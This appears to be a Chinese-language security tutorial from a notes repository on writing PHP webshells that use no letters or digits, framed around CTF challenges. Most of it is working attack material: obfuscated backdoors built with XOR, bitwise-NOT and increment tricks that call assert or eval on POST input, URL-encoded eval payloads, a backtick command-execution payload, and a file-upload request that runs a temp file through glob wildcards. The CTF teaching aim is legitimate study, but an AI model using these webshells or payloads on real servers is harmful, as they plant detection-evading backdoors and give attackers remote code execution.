







# 无字母数字Webshell

---

**相关文章 & Source & Reference**

- [记一次拿webshell踩过的坑(如何用PHP编写一个不包含数字和字母的后门)](https://www.cnblogs.com/ECJTUACM-873284962/p/9433641.html)
- [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
- [无字母数字Webshell之提高篇](https://www.freebuf.com/articles/web/186298.html)
- [浅析CTF绕过字符数字构造shell](https://mp.weixin.qq.com/s/mxwoodKUiXdbOSgPUkKaWg)

---

## 异或绕过

```php
<?php
    echo "A"^"?";       //输出的结果是字符"~"
?>
```

之所以会得到这样的结果，是因为代码中对字符 "A" 和字符 "?" 进行了异或操作。在 PHP 中，两个变量进行异或时，先会将字符串转换成 ASCII 值，再将 ASCII 值转换成二进制再进行异或，异或完，又将结果从二进制转换成了 ASCII 值，再将 ASCII 值转换成字符串。异或操作有时也被用来交换两个变量的值。

比如像上面这个例子

A 的 ASCII 值是 65，对应的二进制值是 01000001

? 的 ASCII 值是 63，对应的二进制值是 00111111

异或的二进制的值是 01111110，对应的 ASCII 值是 126，对应的字符串的值就是~ 了

**案例**

PHP 是弱类型的语言，也就是说在 PHP 中我们可以不预先声明变量的类型，而直接声明一个变量并进行初始化或赋值操作。正是由于 PHP 弱类型的这个特点，我们对 PHP 的变类型进行隐式的转换，并利用这个特点进行一些非常规的操作。如将整型转换成字符串型，将布尔型当作整型，或者将字符串当作函数来处理，下面我们来看一段代码：

```php
<?php

function B(){
    echo "test";
}
$_++;
$__= "?" ^ "}";
$__();

?>
```

上面的代码运行将输出 "test"

`$_++;` 这行代码的意思是对变量名为 `_` 的变量进行自增操作，在 PHP 中未定义的变量默认值为 null,`null==false==0`, 我们可以在不使用任何数字的情况下, 通过对未定义变量的自增操作来得到一个数字。
`$__="?" ^ "}";` 对字符 `?` 和 `}` 进行异或运算，得到结果 B 赋给变量名为 `__`(两个下划线) 的变量
`$__();` 通过上面的赋值操作，变量 `$__` 的值为 B，所以这行可以看作是 B(), 在 PHP 中, 这行代码表示调用函数 B, 所以执行结果为 test。在 PHP 中，我们可以将字符串当作函数来处理。

有了这个例子，我们就可以使用这种后门创建一些可以绕过检测的并且对我们有用的字符串，如_POST","system","call_user_func_array"，或者是任何我们需要的东西。

```php
<?php

@$_++;                      // $_ = 1
$__=("#"^"|");              // $__ = _
$__.=("."^"~");             // _P
$__.=("/"^"`");             // _PO
$__.=("|"^"/");             // _POS
$__.=("{"^"/");             // _POST 
${$__}[!$_](${$__}[$_]);    // $_POST[0]($_POST[1]);

?>

//.=是字符串的连接

//POST /?0=assert
//1=echo phpinfo();
```

甚至可以将上面的代码合并为一行，从而使程序的可读性更差
```php
$__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
```

---

## 取反绕过

取反的符号是~，也是一种运算符。在数值的二进制表示方式上，将0变为1，将1变为0。

直接看构造 phpinfo()
```php
(~%8F%97%8F%96%91%99%90)();
```

**构造 assert 字符**
```
%9E^%FF=>a
%8C^%FF=>s
%9A^%FF=>e
%8D^%FF=>r
%8B^%FF=>t
%A0^%FF=>_
%AF^%FF=>P
%B0^%FF=>O
%AC^%FF=>S
%AB^%FF=>T

$_="%9E%8C%8C%9A%8D%8B"^"%FF%FF%FF%FF%FF%FF";
$__="%A0%AF%B0%AC%AB"^"%FF%FF%FF%FF%FF";
$___=$$__;
$_($___[_]);
```

---

## 例题1

```php
<?php
include 'flag.php';
if(isset($_GET['code'])){
    $code = $_GET['code'];
    if(strlen($code)>40){
        die("Long.");
    }
    if(preg_match("/[A-Za-z0-9]+/",$code)){
        die("NO.");
    }
    @eval($code);
}else{
    highlight_file(__FILE__);
}
//$hint =  "php function getFlag() to get flag";
?>
```

绕过 A-Za-z0-9 这些常规数字、字母字符串的传参，将非字母、数字的字符经过各种变换，最后能构造出 a-z 中任意一个字符

并且字符串长度小于 40

然后再利用 PHP 允许动态函数执行的特点，拼接处一个函数名，这里我们是 "getFlag"，然后执行

```php
$code=~"getFlag";
echo urlencode($code); //得到处理过的值
```

最终 writeup
```php
?code=$_=~%98%9A%8B%B9%93%9E%98;$_();
// 把getFlag取反然后URL编码

?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=getFlag

?code=%24%7B%7E%22%A0%B8%BA%AB%22%7D%5B%AA%5D%28%29%3B&%aa=getFlag

?code=$啊=(%27%5D%40%5C%60%40%40%5D%27^%27%3A%25%28%26%2C%21%3A%27);$啊();
```

**PHP7 的思路**

PHP7 前是不允许用 ($a)(); 这样的方法来执行动态函数的，但 PHP7 中增加了对此的支持。所以，我们可以通过 ('phpinfo')(); 来执行函数，第一个括号中可以是任意 PHP 表达式。

所以很简单了，构造一个可以生成 phpinfo 这个字符串的 PHP 表达式即可。payload 如下（不可见字符用 url 编码表示）：
```
(~%8F%97%8F%96%91%99%90)();
```

```php
?code=(~%8F%97%8F%96%91%99%90)();
```



---

## 例题2

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
  eval($_GET['shell']);
}
```

将非字母、数字的字符经过各种变换，最后能构造出 a-z 中任意一个字符。然后再利用 PHP 允许动态函数执行的特点，拼接处一个函数名，如 “assert”，然后动态执行之即可。

那么，变换方法 将是解决本题的要点。

不过在此之前，我需要说说 php5 和 7 的差异。

php5 中 assert 是一个函数，我们可以通过 $f='assert';$f(...); 这样的方法来动态执行任意代码。

但 php7 中，assert 不再是函数，变成了一个语言结构（类似 eval），不能再作为函数名动态执行代码，所以利用起来稍微复杂一点。但也无需过于担心，比如我们利用 file_put_contents 函数，同样可以用来 getshell。

**思路1**

通过异或执行命令

```php
<?php
$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
$___=$$__;
$_($___[_]); // assert($_POST[_]);
```

```
POST /?shell=$_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`');$__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']');$___=$$__;$_($___[_]);
Content-Type: application/x-www-form-urlencoded

_=phpinfo();
```



```
POST /?shell=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo

//${_GET}{%ff}();&%ff=phpinfo
经过一次 get 传参会进行一次 URL 解码，所以我们可以将字符先进行 url 编码再进行异或得到我们想要的字符。
```

**思路2**

通过位运算里的“取反”执行命令

利用的是 UTF-8 编码的某个汉字，并将其中某个字符取出来，比如 ('和'{2}) 的结果是 "\x8c"，其取反即为字母 s：



利用这个特性
```php
<?php
$__=('>'>'<')+('>'>'<');
$_=$__/$__;

$____='';
$___="瞰";$____.=~($___{$_});$___="和";$____.=~($___{$__});$___="和";$____.=~($___{$__});$___="的";$____.=~($___{$_});$___="半";$____.=~($___{$_});$___="始";$____.=~($___{$__});

$_____='_';$___="俯";$_____.=~($___{$__});$___="瞰";$_____.=~($___{$__});$___="次";$_____.=~($___{$_});$___="站";$_____.=~($___{$_});

$_=$$_____;
$____($_[$__]);
```

```
POST /?shell=%24__%3D%28%27%3E%27%3E%27%3C%27%29%2B%28%27%3E%27%3E%27%3C%27%29%3B%24_%3D%24__%2F%24__%3B%24____%3D%27%27%3B%24___%3D%22%E7%9E%B0%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%92%8C%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E5%92%8C%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E7%9A%84%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%8D%8A%22%3B%24____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E5%A7%8B%22%3B%24____.%3D%7E%28%24___%7B%24__%7D%29%3B%24_____%3D%27_%27%3B%24___%3D%22%E4%BF%AF%22%3B%24_____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E7%9E%B0%22%3B%24_____.%3D%7E%28%24___%7B%24__%7D%29%3B%24___%3D%22%E6%AC%A1%22%3B%24_____.%3D%7E%28%24___%7B%24_%7D%29%3B%24___%3D%22%E7%AB%99%22%3B%24_____.%3D%7E%28%24___%7B%24_%7D%29%3B%24_%3D%24%24_____%3B%24____%28%24_%5B%24__%5D%29%3B

Content-Type: application/x-www-form-urlencoded

2=phpinfo();
```



**思路3**

借助PHP的一个小技巧

PHP 支持 C 风格的前／后递增与递减运算符。
```
++$a	前加	$a 的值加一，然后返回 $a。
$a++	后加	返回 $a，然后将 $a 的值加一。
--$a	前减	$a 的值减一， 然后返回 $a。
$a--	后减	返回 $a，然后将 $a 的值减一。
```

也就是说，'a'++ => 'b'，'b'++ => 'c'... 所以，我们只要能拿到一个变量，其值为a，通过自增操作即可获得a-z中所有字符。

那么，如何拿到一个值为字符串'a'的变量呢？

巧了，数组（Array）的第一个字母就是大写A，而且第4个字母是小写a。也就是说，我们可以同时拿到小写和大写A，等于我们就可以拿到a-z和A-Z的所有字母。

在PHP中，如果强制连接数组和字符串的话，数组将被转换成字符串，其值为Array：



再取这个字符串的第一个字母，就可以获得'A'了。

利用这个技巧，得到如下webshell（因为PHP函数是大小写不敏感的，所以我们最终执行的是 `ASSERT($_POST[_])`，无需获取小写a）：

```php
<?php
$_=[];
$_=@"$_"; // $_='Array';
$_=$_['!'=='@']; // $_=$_[0];
$___=$_; // A
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__; // S
$___.=$__; // S
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

```
POST /?shell=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%27%21%27%3D%3D%27%40%27%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D%27_%27%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___%28%24_%5B_%5D%29%3B

Content-Type: application/x-www-form-urlencoded

_=phpinfo();
```



**过滤了_**

```
?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>
```

?>闭合了 eval 自带的 <? 标签。接下来使用了短标签。{} 包含的 PHP 代码可以被执行，~"%a0%b8%ba%ab" 为 "_GET"，通过反引号进行 shell 命令执行。最后我们只要 GET 传参 %a0 即可执行命令。

**过滤了$**

- PHP7

    在 PHP7 中，我们可以使用 ($a)() 这种方法来执行命令。所以可以用取反构造 payload 执行命令。(~%8F%97%8F%96%91%99%90)(); 执行 phpinfo 函数，第一个括号中可以是任意的表达式。但是这里不能用 assert()来执行函数，因为 php7 不支持 assert()函数。

- PHP5

    在 PHP5 中不再支持 ($a)() 方法来调用函数
    1. shell 下可以利用 . 来执行任意脚本
    2. Linux 文件名支持 glob 通配符代替
        ```
        echo "ls" > AAAAAAAAAA
        . ??????????
        ```

    可以发送一个上传文件的 POST 包，此时 PHP 会将我们上传的文件保存在临时文件夹下，默认的文件名是 / tmp/phpXXXXXX, 文件名最后 6 个字符是随机的大小写字母。

    现在我们可以利用 glob 通配符匹配该文件，我们知道
    * `*` 可以代替 0 个及以上任意文件
    * `?` 可以代表 1 个任意字符
    * `[^a]` 可以用来判断这个位置的字符是不是 a
    * `[0-9] 可以用来限制范围 `

    通过 ascii 码表我们知道，可见大写字母 `@` 与 `[` 之间，所以我们可以利用 `[@-[]` 来表示大写字母。

    综上，我们可以利用 `. /???/????????[@-[]` 来匹配 `/tmp/phpXXXXXX`

---

## 例题3

```php
<?php
if(isset($_GET['evil'])){
    if(strlen($_GET['evil'])>25||preg_match("/[\w$=()<>'\"]/", $_GET['evil'])){
        die("danger!!");
    }
    @eval($_GET['evil']);
}
highlight_file(__FILE__);
?>
```

过滤了字母，数字，`$` ， `_` ， `()` 等，但 \` 和  `.`  还没有被过滤。由于过滤了（）所以不论 PHP 版本是 5 或者 7，都不能执行 ($a)()，所以就没有必要去判断 PHP 版本。由此可以想到上传一个小马文件，然后用 \`  来执行文件。

写一个表单上传
```html
<!DOCTYPE html>
<html lang="en">
<head>
 <meta charset="UTF-8">
 <title>Document</title>
</head>
<body>
 <form action="http://ip:*****/" method="post" enctype="multipart/form-data">
  <input type="file" name="file">
  <input type="submit" value="提交">
 </form>
</body>
</html>
```

提交一个 1.txt 的文件，这个文件会被保存在这个 /tmp/phpXXXXXX 临时文件夹下，我们执行这个临时文件夹就是执行 1.txt 文件里面的内容。

我们在把 1.txt 中写入 ls，并把执行完 1.txt 文件返回的内容（即执行 ls 返回的内容）保存在 var/www/html 目录下的 abc 文件中

var/www/html 是 Apache 的默认路径，我们也可以直接写 ls />abc

```
POST /test.php?evil=`.+/???/????????[@-[]`; HTTP/1.1
Content-Length: 195
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNQMxukHq6dCelaDR
Connection: close

------WebKitFormBoundaryNQMxukHq6dCelaDR
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

ls />/tmp/abc
------WebKitFormBoundaryNQMxukHq6dCelaDR--
```

> 这里如果测不出来建议用burp爆破模块跑


